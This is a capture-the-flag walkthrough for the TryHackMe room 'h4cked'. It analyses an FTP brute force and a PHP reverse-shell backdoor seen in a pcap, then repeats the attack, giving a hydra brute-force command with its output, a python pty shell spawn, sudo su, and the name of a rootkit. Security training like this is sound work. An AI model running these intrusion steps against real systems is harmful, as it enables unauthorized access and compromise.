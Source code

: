 ```yaml
---

title: Walkthrough - h4cked
published: true
---
```


Find out what happened by analysing a .pcap file and hack your way back into the machine

[https://tryhackme.com/room/h4cked](https://tryhackme.com/room/h4cked)

* * *

## It seems like our machine got hacked by an anonymous threat actor. However, we are lucky to have a .pcap file from the attack. Can you determine what happened? Download the .pcap file and use Wireshark to view it.

- Download pcap file.

* * *

## The attacker is trying to log into a specific service. What service is this?

```shell
220 Hello FTP World!
USER jenny
331 Please specify the password.
PASS 111111
530 Login incorrect.
USER jenny
331 Please specify the password.
PASS password123
230 Login successful.
```

* * *

## There is a very popular tool by Van Hauser which can be used to brute force a series of services. What is the name of this tool?

- hydra

* * *

## The attacker is trying to log on with a specific username. What is the username?

- jenny

* * *

## What is the user's password?

- password123

* * *

## What is the current FTP working directory after the attacker logged in?

- /var/www/html

* * *

## The attacker uploaded a backdoor. What is the backdoor's filename?

```shell
220 Hello FTP World!
USER jenny
331 Please specify the password.
PASS password123
230 Login successful.
SYST
215 UNIX Type: L8
PWD
257 "/var/www/html" is the current directory
PORT 192,168,0,147,225,49
200 PORT command successful. Consider using PASV.
LIST -la
150 Here comes the directory listing.
226 Directory send OK.
TYPE I
200 Switching to Binary mode.
PORT 192,168,0,147,196,163
200 PORT command successful. Consider using PASV.
STOR shell.php
150 Ok to send data.
226 Transfer complete.
SITE CHMOD 777 shell.php
200 SITE CHMOD command ok.
QUIT
221 Goodbye.
```

* * *

## The backdoor can be downloaded from a specific URL, as it is located inside the uploaded file. What is the full URL?

- [http://pentestmonkey.net/tools/php-reverse-shell](http://pentestmonkey.net/tools/php-reverse-shell)

* * *

## Which command did the attacker manually execute after getting a reverse shell? What is the computer's hostname?

- whoami & wir3

* * *

## Which command did the attacker execute to spawn a new TTY shell?

- python3 -c 'import pty; pty.spawn("/bin/bash")'

* * *

## Which command was executed to gain a root shell?

-  sudo su

* * *

## The attacker downloaded something from GitHub. What is the name of the GitHub project?

- reptile

* * *

## The project can be used to install a stealthy backdoor on the system. It can be very hard to detect. What is this type of backdoor called?

- rootkit

* * *

## The attacker has changed the user's password! Can you replicate the attacker's steps and read the flag.txt? The flag is located in the /root/Reptile directory. Remember, you can always look back at the .pcap file if necessary. Good luck!

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Chill-Hack]
└─$ hydra -l jenny -P /usr/share/seclists/Passwords/rockyou.txt 10.10.63.85 ftp               
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-26 13:40:57
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.63.85:21/
[21][ftp] host: 10.10.63.85   login: jenny   password: 987654321
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-07-26 13:41:22
```

* * *

## Run Hydra (or any similar tool) on the FTP service. The attacker might not have chosen a complex password. You might get lucky if you use a common word list.
Change the necessary values inside the web shell and upload it to the webserver

-

* * *

## Create a listener on the designated port on your attacker machine. Execute the web shell by visiting the .php file on the targeted web server.

-

* * *

## Become root!

- Follow steps as attacker did

* * *

## Read the flag.txt file inside the Reptile directory

- cat flag.txt

* * * 